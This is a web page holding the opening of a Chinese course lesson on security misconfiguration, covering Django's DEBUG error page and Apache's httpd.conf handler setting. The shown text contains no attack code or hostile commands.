<!DOCTYPE html>

<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<meta content="width=device-width, initial-scale=1, maximum-scale=1.0, user-scalable=no" name="viewport"/>
<meta content="zh-cn" http-equiv="content-language"/>
<meta content="28 安全配置错误：安全问题不只是代码安全" name="description"/>
<link href="/static/favicon.png" rel="icon"/>
<title>28 安全配置错误：安全问题不只是代码安全 </title>
<link href="/static/index.css" rel="stylesheet"/>
<link href="/static/highlight.min.css" rel="stylesheet"/>

<meta content="Hexo 4.2.0" name="generator"/>

</head>
<body>

<a href="/">

技术文章摘抄
</a>

<ul class="uncollapsible">
<li><a class="current-tab" href="/">首页</a></li>
<li><a href="../">上一级</a></li>
</ul>
<ul class="uncollapsible">
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/00%20%e5%af%bc%e8%af%bb%20%e8%a7%a3%e8%af%bbOWASP%20Top10%202021.md" id="00 导读 解读OWASP Top10 2021.md">00 导读 解读OWASP Top10 2021.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/00%20%e5%bc%80%e7%af%87%e8%af%8d%20%e4%bb%8e%e9%bb%91%e5%ae%a2%e7%9a%84%e8%a7%86%e8%a7%92%e6%89%be%e6%bc%8f%e6%b4%9e%ef%bc%8c%e4%bb%8e%e5%ae%89%e5%85%a8%e7%9a%84%e8%a7%92%e5%ba%a6%e4%bc%98%e9%9b%85coding.md" id="00 开篇词 从黑客的视角找漏洞，从安全的角度优雅coding.md">00 开篇词 从黑客的视角找漏洞，从安全的角度优雅coding.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/01%20%e5%a4%b1%e6%95%88%e7%9a%84%e8%ae%bf%e9%97%ae%e6%8e%a7%e5%88%b6%ef%bc%9a%e6%94%bb%e5%87%bb%e8%80%85%e5%a6%82%e4%bd%95%e8%8e%b7%e5%8f%96%e5%85%b6%e4%bb%96%e7%94%a8%e6%88%b7%e4%bf%a1%e6%81%af%ef%bc%9f.md" id="01 失效的访问控制：攻击者如何获取其他用户信息？.md">01 失效的访问控制：攻击者如何获取其他用户信息？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/02%20%e8%b7%af%e5%be%84%e7%a9%bf%e8%b6%8a%ef%bc%9a%e4%bd%a0%e7%9a%84Web%e5%ba%94%e7%94%a8%e7%b3%bb%e7%bb%9f%e6%88%90%e4%ba%86%e6%94%bb%e5%87%bb%e8%80%85%e7%9a%84%e8%b5%84%e6%ba%90%e7%ae%a1%e7%90%86%e5%99%a8%ef%bc%9f.md" id="02 路径穿越：你的Web应用系统成了攻击者的资源管理器？.md">02 路径穿越：你的Web应用系统成了攻击者的资源管理器？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/03%20%e6%95%8f%e6%84%9f%e6%95%b0%e6%8d%ae%e6%b3%84%e9%9c%b2%ef%bc%9a%e6%94%bb%e5%87%bb%e8%80%85%e5%a6%82%e4%bd%95%e8%8e%b7%e5%8f%96%e7%94%a8%e6%88%b7%e8%b4%a6%e6%88%b7%ef%bc%9f.md" id="03 敏感数据泄露：攻击者如何获取用户账户？.md">03 敏感数据泄露：攻击者如何获取用户账户？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/04%20%e6%9d%83%e9%99%90%e4%b8%8d%e5%90%88%e7%90%86%ef%bc%9a%e6%94%bb%e5%87%bb%e8%80%85%e8%bf%9b%e6%9d%a5%e5%b0%b1%e6%98%afroot%e6%9d%83%e9%99%90%ef%bc%9f.md" id="04 权限不合理：攻击者进来就是root权限？.md">04 权限不合理：攻击者进来就是root权限？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/05%20CSRF%ef%bc%9a%e4%b8%ba%e4%bb%80%e4%b9%88%e7%94%a8%e6%88%b7%e7%9a%84%e6%93%8d%e4%bd%9c%e4%bb%96%e8%87%aa%e5%b7%b1%e4%b8%8d%e6%89%bf%e8%ae%a4%ef%bc%9f.md" id="05 CSRF：为什么用户的操作他自己不承认？.md">05 CSRF：为什么用户的操作他自己不承认？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/06%20%e5%8a%a0%e5%af%86%e5%a4%b1%e8%b4%a5%ef%bc%9a%e4%bd%bf%e7%94%a8%e4%ba%86%e5%8a%a0%e5%af%86%e7%ae%97%e6%b3%95%e4%b9%9f%e4%bc%9a%e8%a2%ab%e7%a0%b4%e8%a7%a3%e5%90%97%ef%bc%9f.md" id="06 加密失败：使用了加密算法也会被破解吗？.md">06 加密失败：使用了加密算法也会被破解吗？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/07%20%e5%bc%b1%e7%bc%96%e7%a0%81%ef%bc%9a%e7%a8%8b%e5%ba%8f%e4%b9%8b%e9%97%b4%e7%9a%84%e6%b2%9f%e9%80%9a%e8%af%ad%e8%a8%80%e5%ae%89%e5%85%a8%e5%90%97%ef%bc%9f.md" id="07 弱编码：程序之间的沟通语言安全吗？.md">07 弱编码：程序之间的沟通语言安全吗？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/08%20%e6%95%b0%e5%ad%97%e8%af%81%e4%b9%a6%ef%bc%9a%e6%94%bb%e5%87%bb%e8%80%85%e5%8f%af%e4%bb%a5%e4%bc%aa%e9%80%a0%e8%af%81%e4%b9%a6%e5%90%97%ef%bc%9f.md" id="08 数字证书：攻击者可以伪造证书吗？.md">08 数字证书：攻击者可以伪造证书吗？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/09%20%e5%af%86%e7%a0%81%e7%ae%97%e6%b3%95%e9%97%ae%e9%a2%98%ef%bc%9a%e6%95%b0%e5%ad%a6%e7%9f%a5%e8%af%86%e5%a6%82%e4%bd%95%e6%8f%90%e9%ab%98%e4%bb%a3%e7%a0%81%e5%8f%af%e9%9d%a0%e6%80%a7%ef%bc%9f.md" id="09 密码算法问题：数学知识如何提高代码可靠性？.md">09 密码算法问题：数学知识如何提高代码可靠性？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/10%20%e5%bc%b1%e9%9a%8f%e6%9c%ba%e6%95%b0%e7%94%9f%e6%88%90%e5%99%a8%ef%bc%9a%e6%94%bb%e5%87%bb%e8%80%85%e5%a6%82%e4%bd%95%e9%a2%84%e6%b5%8b%e9%9a%8f%e6%9c%ba%e6%95%b0%ef%bc%9f.md" id="10 弱随机数生成器：攻击者如何预测随机数？.md">10 弱随机数生成器：攻击者如何预测随机数？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/11%20%e5%bf%98%e8%ae%b0%e5%8a%a0%e2%80%9c%e7%9b%90%e2%80%9d%ef%bc%9a%e5%8a%a0%e5%af%86%e7%bb%93%e6%9e%9c%e5%bc%ba%e5%ba%a6%e4%b8%8d%e5%a4%9f%e5%90%97%ef%bc%9f.md" id="11 忘记加“盐”：加密结果强度不够吗？.md">11 忘记加“盐”：加密结果强度不够吗？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/12%20%e6%b3%a8%e5%85%a5%ef%bc%88%e4%b8%8a%ef%bc%89%ef%bc%9aSQL%e6%b3%a8%e5%85%a5%e8%b5%b7%e6%89%8b%e5%bc%8f.md" id="12 注入（上）：SQL注入起手式.md">12 注入（上）：SQL注入起手式.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/13%20%e6%b3%a8%e5%85%a5%ef%bc%88%e4%b8%8b%ef%bc%89%ef%bc%9aSQL%e6%b3%a8%e5%85%a5%e6%8a%80%e6%88%98%e6%b3%95%e5%8f%8a%e7%9b%b8%e5%85%b3%e5%ae%89%e5%85%a8%e5%ae%9e%e8%b7%b5.md" id="13 注入（下）：SQL注入技战法及相关安全实践.md">13 注入（下）：SQL注入技战法及相关安全实践.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/14%20%e8%87%aa%e5%8a%a8%e5%8c%96%e6%b3%a8%e5%85%a5%e7%a5%9e%e5%99%a8%ef%bc%88%e4%b8%80%ef%bc%89%ef%bc%9asqlmap%e7%9a%84%e8%ae%be%e8%ae%a1%e6%80%9d%e8%b7%af%e8%a7%a3%e6%9e%90.md" id="14 自动化注入神器（一）：sqlmap的设计思路解析.md">14 自动化注入神器（一）：sqlmap的设计思路解析.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/15%20%e8%87%aa%e5%8a%a8%e5%8c%96%e6%b3%a8%e5%85%a5%e7%a5%9e%e5%99%a8%ef%bc%88%e4%ba%8c%ef%bc%89%ef%bc%9asqlmap%e7%9a%84%e8%ae%be%e8%ae%a1%e6%9e%b6%e6%9e%84%e8%a7%a3%e6%9e%90.md" id="15 自动化注入神器（二）：sqlmap的设计架构解析.md">15 自动化注入神器（二）：sqlmap的设计架构解析.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/16%20%e8%87%aa%e5%8a%a8%e5%8c%96%e6%b3%a8%e5%85%a5%e7%a5%9e%e5%99%a8%ef%bc%88%e4%b8%89%ef%bc%89%ef%bc%9asqlmap%e7%9a%84%e6%a0%b8%e5%bf%83%e5%ae%9e%e7%8e%b0%e6%8b%86%e8%a7%a3.md" id="16 自动化注入神器（三）：sqlmap的核心实现拆解.md">16 自动化注入神器（三）：sqlmap的核心实现拆解.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/17%20%e8%87%aa%e5%8a%a8%e5%8c%96%e6%b3%a8%e5%85%a5%e7%a5%9e%e5%99%a8%ef%bc%88%e5%9b%9b%ef%bc%89%ef%bc%9asqlmap%e7%9a%84%e6%a0%b8%e5%bf%83%e5%8a%9f%e8%83%bd%e8%a7%a3%e6%9e%90.md" id="17 自动化注入神器（四）：sqlmap的核心功能解析.md">17 自动化注入神器（四）：sqlmap的核心功能解析.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/19%20%e5%a4%b1%e6%95%88%e7%9a%84%e8%be%93%e5%85%a5%e6%a3%80%e6%b5%8b%ef%bc%88%e4%b8%8a%ef%bc%89%ef%bc%9a%e6%94%bb%e5%87%bb%e8%80%85%e6%9c%89%e5%93%aa%e4%ba%9b%e7%bb%95%e8%bf%87%e6%96%b9%e6%a1%88%ef%bc%9f.md" id="19 失效的输入检测（上）：攻击者有哪些绕过方案？.md">19 失效的输入检测（上）：攻击者有哪些绕过方案？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/20%20%e5%a4%b1%e6%95%88%e7%9a%84%e8%be%93%e5%85%a5%e6%a3%80%e6%b5%8b%ef%bc%88%e4%b8%8b%ef%bc%89%ef%bc%9a%e6%94%bb%e5%87%bb%e8%80%85%e6%9c%89%e5%93%aa%e4%ba%9b%e7%bb%95%e8%bf%87%e6%96%b9%e6%a1%88%ef%bc%9f.md" id="20 失效的输入检测（下）：攻击者有哪些绕过方案？.md">20 失效的输入检测（下）：攻击者有哪些绕过方案？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/21%20XSS%ef%bc%88%e4%b8%8a%ef%bc%89%ef%bc%9a%e5%89%8d%e7%ab%af%e6%94%bb%e9%98%b2%e7%9a%84%e4%b8%bb%e6%88%98%e5%9c%ba.md" id="21 XSS（上）：前端攻防的主战场.md">21 XSS（上）：前端攻防的主战场.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/22%20XSS%ef%bc%88%e4%b8%ad%ef%bc%89%ef%bc%9a%e8%b7%a8%e7%ab%99%e8%84%9a%e6%9c%ac%e6%94%bb%e5%87%bb%e7%9a%84%e5%8d%b1%e5%ae%b3%e6%80%a7.md" id="22 XSS（中）：跨站脚本攻击的危害性.md">22 XSS（中）：跨站脚本攻击的危害性.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/23%20XSS%ef%bc%88%e4%b8%8b%ef%bc%89%ef%bc%9a%e6%a3%80%e6%b5%8b%e4%b8%8e%e9%98%b2%e5%be%a1%e6%96%b9%e6%a1%88%e8%a7%a3%e6%9e%90.md" id="23 XSS（下）：检测与防御方案解析.md">23 XSS（下）：检测与防御方案解析.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/24%20%e8%b5%84%e6%ba%90%e6%b3%a8%e5%85%a5%ef%bc%9a%e6%94%bb%e5%87%bb%e6%96%b9%e5%bc%8f%e4%b8%ba%e4%bb%80%e4%b9%88%e4%bc%9a%e5%8d%87%e7%ba%a7%ef%bc%9f.md" id="24 资源注入：攻击方式为什么会升级？.md">24 资源注入：攻击方式为什么会升级？.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/25%20%e4%b8%9a%e5%8a%a1%e9%80%bb%e8%be%91%e6%bc%8f%e6%b4%9e%ef%bc%9a%e5%a5%bd%e7%9a%84%e5%bc%80%e5%a7%8b%e6%98%af%e6%88%90%e5%8a%9f%e7%9a%84%e4%b8%80%e5%8d%8a.md" id="25 业务逻辑漏洞：好的开始是成功的一半.md">25 业务逻辑漏洞：好的开始是成功的一半.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/26%20%e5%8c%85%e5%90%ab%e6%95%8f%e6%84%9f%e4%bf%a1%e6%81%af%e7%9a%84%e6%8a%a5%e9%94%99%ef%bc%9a%e5%b0%86%e5%ae%89%e5%85%a8%e5%bc%80%e5%8f%91%e6%a0%87%e5%87%86%e5%ba%94%e7%94%a8%e5%88%b0%e9%a1%b9%e7%9b%ae%e4%b8%ad.md" id="26 包含敏感信息的报错：将安全开发标准应用到项目中.md">26 包含敏感信息的报错：将安全开发标准应用到项目中.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/27%20%e7%94%a8%e6%88%b7%e8%b4%a6%e6%88%b7%e5%ae%89%e5%85%a8%ef%bc%9a%e8%b4%a6%e6%88%b7%e5%ae%89%e5%85%a8%e4%bd%93%e7%b3%bb%e8%ae%be%e8%ae%a1%e6%96%b9%e6%a1%88%e4%b8%8e%e5%ae%9e%e8%b7%b5.md" id="27 用户账户安全：账户安全体系设计方案与实践.md">27 用户账户安全：账户安全体系设计方案与实践.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/28%20%e5%ae%89%e5%85%a8%e9%85%8d%e7%bd%ae%e9%94%99%e8%af%af%ef%bc%9a%e5%ae%89%e5%85%a8%e9%97%ae%e9%a2%98%e4%b8%8d%e5%8f%aa%e6%98%af%e4%bb%a3%e7%a0%81%e5%ae%89%e5%85%a8.md" id="28 安全配置错误：安全问题不只是代码安全.md">28 安全配置错误：安全问题不只是代码安全.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/29%20Session%e4%b8%8eCookie%ef%bc%9a%e8%b4%a6%e6%88%b7%e4%bd%93%e7%b3%bb%e7%9a%84%e5%ae%89%e5%85%a8%e8%ae%be%e8%ae%a1%e5%8e%9f%e7%90%86.md" id="29 Session与Cookie：账户体系的安全设计原理.md">29 Session与Cookie：账户体系的安全设计原理.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/30%20HTTP%20Header%e5%ae%89%e5%85%a8%e6%a0%87%e5%bf%97%ef%bc%9a%e5%8d%8f%e8%ae%ae%e7%ba%a7%e5%88%ab%e7%9a%84%e5%ae%89%e5%85%a8%e6%94%af%e6%8c%81.md" id="30 HTTP Header安全标志：协议级别的安全支持.md">30 HTTP Header安全标志：协议级别的安全支持.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/31%20%e6%98%93%e5%8f%97%e6%94%bb%e5%87%bb%e5%92%8c%e8%bf%87%e6%97%b6%e7%9a%84%e7%bb%84%e4%bb%b6%ef%bc%9aDevSecOps%e4%b8%8e%e4%be%9d%e8%b5%96%e9%a1%b9%e5%ae%89%e5%85%a8%e6%a3%80%e6%9f%a5.md" id="31 易受攻击和过时的组件：DevSecOps与依赖项安全检查.md">31 易受攻击和过时的组件：DevSecOps与依赖项安全检查.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/32%20%e8%bd%af%e4%bb%b6%e5%92%8c%e6%95%b0%e6%8d%ae%e5%ae%8c%e6%95%b4%e6%80%a7%e6%95%85%e9%9a%9c%ef%bc%9aSolarWinds%e4%ba%8b%e4%bb%b6%e7%9a%84%e5%b9%95%e5%90%8e%e2%bf%8a%e2%bc%bf.md" id="32 软件和数据完整性故障：SolarWinds事件的幕后⿊⼿.md">32 软件和数据完整性故障：SolarWinds事件的幕后⿊⼿.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/33%20SSRF%ef%bc%9a%e7%a9%bf%e8%b6%8a%e8%be%b9%e7%95%8c%e9%98%b2%e6%8a%a4%e7%9a%84%e5%88%a9%e5%88%83.md" id="33 SSRF：穿越边界防护的利刃.md">33 SSRF：穿越边界防护的利刃.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/34%20Crawler%20VS%20Fuzzing%ef%bc%9aDAST%e4%b8%8e%e6%9c%ba%e5%99%a8%e5%ad%a6%e4%b9%a0.md" id="34 Crawler VS Fuzzing：DAST与机器学习.md">34 Crawler VS Fuzzing：DAST与机器学习.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/35%20%e8%87%aa%e5%8a%a8%e5%8c%96%e6%94%bb%e9%98%b2%ef%bc%9a%e4%bd%8e%e4%bb%a3%e7%a0%81%e9%a9%b1%e5%8a%a8%e7%9a%84%e6%b8%97%e9%80%8f%e5%b7%a5%e5%85%b7%e7%a7%af%e7%b4%af.md" id="35 自动化攻防：低代码驱动的渗透工具积累.md">35 自动化攻防：低代码驱动的渗透工具积累.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/36%20%e6%99%ba%e8%83%bd%e6%94%bb%e9%98%b2%ef%bc%9a%e6%9e%84%e5%bb%ba%e4%b8%aa%e6%80%a7%e5%8c%96%e6%94%bb%e9%98%b2%e5%b9%b3%e5%8f%b0.md" id="36 智能攻防：构建个性化攻防平台.md">36 智能攻防：构建个性化攻防平台.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/%e5%a4%a7%e5%92%96%e5%8a%a9%e5%9c%ba%20%e6%95%b0%e5%ad%97%e8%af%81%e4%b9%a6%ef%bc%8c%e5%9b%b0%e5%a2%83%e4%b8%8e%e6%9c%aa%e6%9d%a5.md" id="大咖助场 数字证书，困境与未来.md">大咖助场 数字证书，困境与未来.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/%e6%98%a5%e8%8a%82%e7%ad%96%e5%88%92%ef%bc%88%e4%b8%80%ef%bc%89%20%20%e8%a7%86%e9%a2%91%e8%af%be%e5%86%85%e5%ae%b9%e7%b2%be%e9%80%89%ef%bc%9aWeb%e6%b8%97%e9%80%8f%e6%b5%8b%e8%af%95%e5%b7%a5%e5%85%b7%e6%95%99%e5%ad%a6.md" id="春节策划（一）  视频课内容精选：Web渗透测试工具教学.md">春节策划（一）  视频课内容精选：Web渗透测试工具教学.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/%e6%98%a5%e8%8a%82%e7%ad%96%e5%88%92%ef%bc%88%e4%b8%89%ef%bc%89%20%e4%b8%80%e5%a5%97%e6%b5%8b%e8%af%95%e9%a2%98%ef%bc%8c%e7%9c%8b%e7%9c%8b%e5%af%b9%e8%af%be%e7%a8%8b%e5%86%85%e5%ae%b9%e7%9a%84%e6%8e%8c%e6%8f%a1%e6%83%85%e5%86%b5.md" id="春节策划（三） 一套测试题，看看对课程内容的掌握情况.md">春节策划（三） 一套测试题，看看对课程内容的掌握情况.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/%e6%98%a5%e8%8a%82%e7%ad%96%e5%88%92%ef%bc%88%e4%ba%8c%ef%bc%89%20%20%20%e7%bb%99%e4%bd%a0%e6%8e%a8%e8%8d%904%e6%9c%acWeb%e5%ae%89%e5%85%a8%e5%9b%be%e4%b9%a6.md" id="春节策划（二）   给你推荐4本Web安全图书.md">春节策划（二）   给你推荐4本Web安全图书.md</a>
</li>
<li>
<a class="menu-item" href="/%e4%b8%93%e6%a0%8f/Web%e6%bc%8f%e6%b4%9e%e6%8c%96%e6%8e%98%e5%ae%9e%e6%88%98/%e7%bb%93%e6%9d%9f%e8%af%ad%20%e6%97%a0%e7%95%8f%e5%89%8d%e8%a1%8c.md" id="结束语 无畏前行.md">结束语 无畏前行.md</a>
</li>
<li><a href="/assets/捐赠.md">捐赠</a></li>
</ul>

<header class="navbar">
<section class="navbar-section">
<a onclick="open_sidebar()">
<i class="icon icon-menu"></i>
</a>
</section>
</header>

<h1 class="title" data-id="28 安全配置错误：安全问题不只是代码安全" id="title">28 安全配置错误：安全问题不只是代码安全</h1>

你好，我是王昊天。

不知道你是否看见过下面这张图片？它是我们在使用Django编写后端程序时，经常会看到的报错页面。在这个报错页面中，我们可以看到这个Web应用的所有路径，这对于Web应用来说是极其危险的。



从页面最下方的提示信息中，我们可以知道，这是由于我们在Django的配置文件中，没有将DEBUG改为False导致的。所以<strong>这就是一个由于配置错误导致的Web应用安全问题</strong>。

其实，在Web应用中，安全配置问题还是很普遍的，这节课就让我们一起来深入学习下吧！

<h2 id="安全配置错误">安全配置错误</h2>

在Web应用中，由于安全配置错误导致的安全问题屡见不鲜，这里我选取了Web应用中典型的一些安全配置问题来讲解，它们分别为Apache配置安全问题、Nginx配置安全问题以及Tomcat配置安全问题，下面我们逐一看下。

<h3 id="apache配置安全问题">Apache配置安全问题</h3>

Apache是世界使用排名第一的Web服务器软件。它的兼容性很好，可以在Linux系统以及Windows系统中运行。Web应用开发者可以用它来运行开发的Web服务。

我们可以将它简单理解为，当在一台机器上配置好Apache服务器，可利用它响应HTML页面的访问请求。

Apache软件有一个配置文件，它通常为httpd.conf，我们在启动自己的Web应用前，首先需要对它进行配置的修改。



如果我们希望，Apache在遇到扩展名为PHP的页面文件时，将它用x-httpd-php来解析，那么我们就可以在配置文件中添加代码 <code>AddHandler application/x-httpd-php .php</code>。之后，重启Apache服务，配置就能生效。

